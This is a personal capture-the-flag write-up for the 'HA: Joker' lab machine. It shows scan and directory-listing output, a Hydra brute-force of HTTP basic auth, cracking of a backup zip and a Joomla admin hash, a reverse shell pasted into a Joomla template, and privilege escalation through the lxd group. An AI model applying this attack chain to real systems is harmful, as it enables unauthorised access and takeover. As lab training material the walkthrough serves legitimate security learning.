 # writeups

```
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad201ff4331b0070b385cb8700c4f4f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL89x6yGLD8uQ9HgFK1nvBGpjT6KJXIwZZ56/pjgdRK/dOSpvl0ckMaa68V9bLHvn0Oerh2oa4Q5yCnwddrQnm7JHJ4gNAM+lg+ML7+cIULAHqXFKPpPAjvEWJ7T6+NRrLc9q8EixBsbEPuNer4tGGyUJXg6GpjWL5jZ79TwZ80ANcYPVGPZbrcCfx5yR/1KBTcpEdUsounHjpnpDS/i+2rJ3ua8IPUrqcY3GzlDcvF7d/+oO9GxQ0wjpy1po6lDJ/LytU6IPFZ1Gn/xpRsOxw0N35S7fDuhn69XlXj8xiDDbTlOhD4sNxckX0veXKpo6ynQh5t3yM5CxAQdqRKgFF
|   256 1bf9a8ecfd35ecfb04d5ee2aa17a4f78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOzF9YUxQxzgUVsmwq9ZtROK9XiPOB0quHBIwbMQPScfnLbF3/Fws+Ffm/l0NV7aIua0W7FLGP3U4cxZEDFIzfQ=
|   256 dcd7dd6ef6711f8c2c2ca1346d299920 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPLWfYB8/GSsvhS7b9c6hpXJCO6p1RvLsv4RJMvN4B3r
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: Joker
8080/tcp open  http    syn-ack Apache httpd 2.4.29
|_http-title: 401 Unauthorized
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
port 80, I use gobuster and dirsearch
```
[19:09:38] 200 -    6KB - /index.html                                       
[19:10:07] 200 -   94KB - /phpinfo.php  
/secret.txt 
```


content of secret.txt
```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

users possible: Joker,Batman

after that i tried to hydra on the 8080 port, who have an authentifaction

`[8080][http-get] host: 10.10.218.236   login: joker   password: hannah`


I found this hint
```
To login to your site use the user name and password that were created 
as part of the installation process. Once logged-in you will be able to 
create and edit articles and modify some settings.
```
but nothing works, after reading the hind I found the `/administrator/`,

==dirlisting 8080 port===
```
/images               (Status: 301) [Size: 322] [--> http://10.10.218.236:8080/images/]
/index.php            (Status: 200) [Size: 10949]
/.php                 (Status: 403) [Size: 280]
/media                (Status: 301) [Size: 321] [--> http://10.10.218.236:8080/media/]
/templates            (Status: 301) [Size: 325] [--> http://10.10.218.236:8080/templates/]
/modules              (Status: 301) [Size: 323] [--> http://10.10.218.236:8080/modules/]
/bin                  (Status: 301) [Size: 319] [--> http://10.10.218.236:8080/bin/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.218.236:8080/plugins/]
/includes             (Status: 301) [Size: 324] [--> http://10.10.218.236:8080/includes/]
/language             (Status: 301) [Size: 324] [--> http://10.10.218.236:8080/language/]
/README               (Status: 200) [Size: 4494]
/README.txt           (Status: 200) [Size: 4494]
/components           (Status: 301) [Size: 326] [--> http://10.10.218.236:8080/components/]
/cache                (Status: 301) [Size: 321] [--> http://10.10.218.236:8080/cache/]
/libraries            (Status: 301) [Size: 325] [--> http://10.10.218.236:8080/libraries/]
/robots               (Status: 200) [Size: 836]
/robots.txt           (Status: 200) [Size: 836]
...
```
I found a lot of dir but the one that i'm interested to not, while using nikto with the new
creds I got
`+ /backup.zip: Potentially interesting backup/cert file found. . ` and I use wget to download
this file into my machine

`└─$ wget http://10.10.218.236:8080/backup.zip --http-user joker --http-password hannah`, 

`[backup.zip] db/joomladb.sql password:`, backpu file has some password required, let's try to
bruteforce like said the hint using zip2john binary, after that the password was
`hannah           (backup.zip)` so after I use grep look for any users and I found one
`grep "user" ./<Filedb.sql>"`, here the result
```
cc1gr_users,Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG'
```
now let's try to crack the password, and I got an amazing result `abcd1234`, that's the password,
then now we can connect to the joomla administation panel with creds "admin:abcd1234", and here
the panel admin so now we can plan/upload a revshell, Templates>Site>beez3 so after going through
this path I copy/paste the revshell code into the index.php and after TEMPLATE PREVIEW, to execute
the shell.


`uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)`
the group maybe a little bizarre, so after that I only read an article abt how to 
get the root priv and I got the flag, here the article

`https://www.hackingarticles.in/lxd-privilege-escalation/`

and one of writeup helped me a lot when I struggled

https://drf0x.github.io/HAJokerCTF

